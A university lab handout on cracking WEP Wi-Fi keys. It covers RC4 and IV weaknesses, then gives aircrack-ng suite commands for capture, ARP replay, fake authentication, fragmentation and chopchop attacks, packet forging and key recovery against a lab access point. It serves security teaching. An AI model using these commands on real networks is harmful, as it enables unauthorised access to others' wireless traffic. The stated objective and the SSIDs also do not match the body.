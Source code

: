 
##  Module Code: 6CSEF005W  ##
**Module name:** Wireless Network Security

**Lab activity:** Cracking WEP

**Author:** Dr Ayman El Hajjar  
  
---
#  Lab Activity: Connecting to a WEP Network on Linux

Objective:  
In this lab, you'll practice connecting a Linux system (e.g., Raspberry Pi VM) to a WEP-protected wireless network using three different approaches:

- Option 1: NetworkManager (nmcli)  
- Option 2: Command-line interface (iwconfig)  
- Option 3: Configuration file (wpa_supplicant)  

---

Target Network Details

- SSID: 6CSEF005W_WEP_AP  
- WEP Key: The objective of this lab is to find the WEP key

---




### An Introduction to WEP

The WEP protocol was introduced with the original 802.11 standard as a means to provide authentication and encryption to wireless LAN implementations. It is based on the RC4 (Rivest Cipher 4) stream cypher with a pre-shared secret key (PSK) of 40 or 104 bits, depending on the implementation. A 24-bit pseudo-random Initialization Vector (IV) is concatenated with the pre-shared key to generate the per-packet keystream used by RC4 for encryption and decryption. Thus, the resulting keystream could be 64 or 128 bits long.

### Attacks against WEP

- WEP is insecure and deprecated by the Wi-Fi Alliance due to vulnerabilities in keystream generation, IV reuse, and key length.
- The 24-bit IV space (2²⁴ = ~16.7 million values) is small and sent in cleartext, leading to keystream reuse and allowing attackers to perform statistical attacks.
- The Fluhrer, Mantin and Shamir (FMS) attack (2001) exploits weak IVs to recover keys; requires ~250,000 IVs for 40-bit keys and ~1,500,000 for 104-bit keys.
- Korek enhanced the FMS attack, improving its efficiency.
- Andreas Klein found further RC4 keystream-key correlations, aiding key recovery.
- Pyshkin, Tews, and Weinmann (PTW) attack (2007) further improved efficiency, requiring fewer IVs (around 40,000–85,000 frames) and is the default attack method in Aircrack-ng.
- Both FMS and PTW can be run passively but require large frame captures; active frame injection (e.g., replaying ARP requests) accelerates IV collection.
- The ARP Request Replay attack sends captured ARP requests back to the AP to generate more traffic with fresh IVs.
---

- We now move to the hands-on phase using Aircrack-ng.
- During reconnaissance, record the BSSID, channel, and security protocol of the target network.
- We'll focus on WEP-protected networks, capturing frames on the relevant channel.

### Capture Traffic

> **Command**  
> The following commands must be run regardless of whether clients are connected.

```bash
airmon-ng start wlan0 1
```
**Command**  
> Capture traffic on channel 1 for target AP with BSSID `08:7A:4C:83:0C:E0`:
```bash
airodump-ng --channel 1 --bssid 08:7A:4C:83:0C:E0 --write wep_crack mon0
```
This saves captured frames to the file `wep_crack.cap`.
We will crack WEP keys both with and without connected clients.

## Cracking WEP Key with Connected Clients
If a client is connected, it will show in `airodump-ng`. For example, MAC `98:52:B1:3B:32:58`.
Since we're not associated, we capture and replay that client’s ARP requests.
Use `aireplay-ng` to replay ARP requests and increase IV collection rate.

```bash
aireplay-ng --arpreplay -h 98:52:B1:3B:32:58 -b 08:7A:4C:83:0C:E0 mon0
```
Monitor `airodump-ng` terminal; data packets should increase rapidly.

After collecting enough packets (~40,000), attempt to crack the key:
```bash
aircrack-ng -b 08:7A:4C:83:0C:E0 wep_crack-01.cap
```
Aircrack-ng automatically retries when more IVs are captured.

On success, it outputs the key in hex and ASCII.


## Cracking WEP Key without Connected Clients
When no clients are connected, simulate association with fake authentication:

```bash
aireplay-ng --fakeauth 0 -o 1 -e LD7008Lab -a 08:7A:4C:83:0C:E0 -h 1C:4B:D6:BB:14:06 mon0
```
Success messages indicate fake authentication worked.

A deauthentication packet may indicate MAC filtering on the AP.

## Fragmentation and ChopChop Attacks
These attacks recover keystreams from single frames even without clients.

Not all drivers or APs support both; try alternately.

```bash
aireplay-ng --fragment -b 08:7A:4C:83:0C:E0 -h 1C:4B:D6:BB:14:06 mon0
```
Confirm usage of captured frame; recover up to 1500 bytes of keystream.

Save keystream once sufficient bytes collected (≥384).

ChopChop attack:
```bash
aireplay-ng --chopchop -b 08:7A:4C:83:0C:E0 -h 1C:4B:D6:BB:14:06 mon0
```
Recovers keystream relying only on ciphertext; slower but useful.
Forging and Injecting ARP Requests
With recovered keystream, forge an encrypted ARP request:

```bash
packetforge-ng --arp -a 08:7A:4C:83:0C:E0 -h 1C:4B:D6:BB:14:06 -k 192.168.1.100 -l 192.168.1.1 -y fragment-0325-172339.xor -w arprequest
```
Options:
`--arp` for ARP packets,
`-a` AP MAC,
`-h` source MAC,
`-k` destination IP,
`-l` source IP,
`-y` keystream file,
`-w` output file.

Inject forged ARP request:

```bash
aireplay-ng --interactive -r arprequest mon0
```
Observe ARP request injection details.

Watch `airodump-ng` terminal for increasing data packets.
After sufficient packets, crack key again:
```bash
aircrack-ng -b 08:7A:4C:83:0C:E0 wep_crack-10.cap
```
